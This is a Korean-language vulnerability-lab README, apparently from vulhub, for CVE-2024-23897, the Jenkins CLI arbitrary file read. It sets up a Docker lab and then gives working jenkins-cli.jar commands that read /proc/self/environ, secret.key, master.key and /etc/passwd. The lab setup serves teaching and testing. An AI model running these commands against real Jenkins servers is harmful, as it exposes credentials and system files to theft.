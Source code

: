 CLI를 통한 Jenkins 임의 파일 읽기(CVE-2024-23897)

[중국어버전(Chinese version)](README.zh-cn.md)

Jenkins는 오픈소스 자동화 서버입니다.

Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 구문 분석합니다. 이 명령 구문 분석기는 인수의 @ 문자 뒤에 오는 파일 경로를 파일 내용으로 대체하는 기능(expandAtFiles)을 가지고 있으며, 이를 통해 공격자는 Jenkins 서버에서 임의 파일을 읽을 수 있습니다.

이 취약점은 Jenkins 2.441 이전 버전에 영향을 미칩니다.


참고:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약점 발생 환경

Jenkins 서버 2.441을 시작하려면 다음 명령을 실행하세요.

```
docker compose up -d
```

서버가 시작된 후 http://your-ip:8080/을 통해 Jenkins 서버에 액세스할 수 있습니다. 기본 관리자의 사용자 이름과 비밀번호는`admin`과 `vulhub`.


## 취약점 공격(익스플로잇)

먼저 http://localhost:8080/jnlpJars/jenkins-cli.jar을 통해 명령줄 클라이언트 jenkins-cli.jar를 다운로드해야 합니다.

/proc/self/environ 파일을 읽어 Jenkins 기본 디렉터리인 JENKINS_HOME=/var/jenkins_home을 가져옵니다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

(사진1)


이 명령을 사용하면 secrets.key 또는 master.key와 같은 민감한 파일을 익명으로 검색할 수 있습니다(명령줄에서 오류가 발생하면 파일의 첫 번째 줄만 읽을 수 있습니다).

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

(사진2)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

(사진3)

"익명 읽기 액세스 허용"이 켜져 있으므로 전체 콘텐츠도 읽을 수 있습니다. 파일:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
